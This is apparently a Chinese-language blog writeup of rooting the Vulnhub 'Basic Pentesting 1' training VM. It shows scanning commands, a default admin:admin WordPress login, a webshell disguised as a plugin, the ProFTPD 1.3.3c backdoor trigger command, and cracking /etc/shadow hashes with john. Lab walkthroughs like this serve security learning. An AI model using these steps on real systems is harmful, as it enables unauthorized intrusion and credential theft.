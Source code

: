 ```yaml
---
title: Vulnhub basic pentesting 1 Writeup
date: 2024-08-1
categories: [資安]
tags: [writeup]

description: Vulnhub basic pentesting 1 過程最終取得Root

published: true #不顯示此文章
---
```




```bash
nmap -sn 192.168.18.1/24
```
找到靶機ip為 192.168.18.139

攻擊者ip 192.168.18.136
靶機ip 192.168.18.139

-------
## 服務掃描

對靶機`192.168.18.139`進行服務掃描:
```bash
nmap -sV -sT -p- 192.168.18.139
```

掃描結果:
```txt
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* ProFTPD 1.3.3c      CVE-2015-3306   
* OpenSSH 7.2p2       CVE-2016-0777,CVE-2016-0778
* Apache httpd 2.4.18 CVE-2016-5387

一開始沒有去注意到這麼多CVE就直接去打網頁了

----
## 目錄掃描 

使用 `dirsearch` 工具進行目錄掃描：
```bash
dirsearch -u "192.168.18.139"
```

掃描結果:
```txt
[14:24:47] 200 -  177B  - /index.html
[14:24:53] 301 -  317B  - /secret  ->  http://192.168.18.139/secret/
[14:24:53] 200 -   52KB - /secret/
[14:24:54] 403 -  303B  - /server-status/
[14:24:54] 403 -  302B  - /server-status
```

在 `http://192.168.18.139/secret/` 發現了域名 `http://vtcsec/` 和管理員登入介面 `http://vtcsec/secret/wp-login.php`

起手式`admin:admin`(弱密碼) 成功登入

---------
## 利用WP plugin

製作假`plugin`裡面含`webshell`上傳到伺服器

將`WP plugin`所需的標頭加入到`webshell`裡面:
```txt
/*
Plugin Name: wordprees webshell
Plugin URI: IDK
Description: this plugin is websehll 
Version: 1.0
Author: hacker
Author URI: IDK
License: GPL2
*/
```

訪問 `http://vtcsec/secret/wp-admin/plugins.php?plugin=wp_webshell%2Fwp_webshell.php` 讓`webshell`執行 成功`RCE`

---------------------------
## 交互式Bash Shell

利用`webshell`送出一個以下指令取得交互式的`Bash shell`:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

-------
## 後續操作

在`/home/marlinspike`找路徑看到才發現`ProFTPD 1.3.3c`的後門漏洞:
```txt
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

發現 `ProFTPD 1.3.3c` 存在後門漏洞 `CVE-2015-3306`，特定指令可獲得 root 權限：
```bash
ps aux | grep proftpd

nc 192.168.18.139 21

HELP ACIDBITCHEZ
```
![[images/getroot.png]]
> 可以使用metasoloit但是我還沒學 哈哈哈哈哈哈 

---------
### 密碼爆破

- **準備文件**
    - **`passwd.txt`**: 這個文件包含了 **`/etc/passwd`** 文件的內容，列出了系統中的用戶和基本信息，但不包括密碼哈希。
    - **`shadow.txt`**: 這個文件包含了 **`/etc/shadow`** 文件的內容，存儲了加密的密碼哈希。
- **合併文件**
    
    - 使用 **`unshadow`** 工具來將 **`passwd.txt`** 和 **`shadow.txt`** 合併成一個文件 **`combined.txt`**，這個文件包含了用戶名和加密的密碼哈希，格式適合於 **`john`** 工具進行破解：
    
	```bash
	sudo unshadow passwd.txt shadow.txt > combined.txt
	```
- **破解密碼**
    
    - 使用 **`john`** 工具來對 **`combined.txt`** 文件中的密碼哈希進行破解：
        
		```bash
	    john combined.txt
        ```
        
    - **`john`** 會嘗試使用字典攻擊和其他破解技術來解密密碼哈希。
- **顯示結果**
    
    - 破解完成後，使用 **`john`** 的 **`--show`** 選項來顯示破解得到的原始密碼：
    
        ```bash
		john --show combined.txt
        ```
        
    - 這會顯示原始密碼（在此例中，用於展示的密碼被替換為 **`********`**）。
------------------------

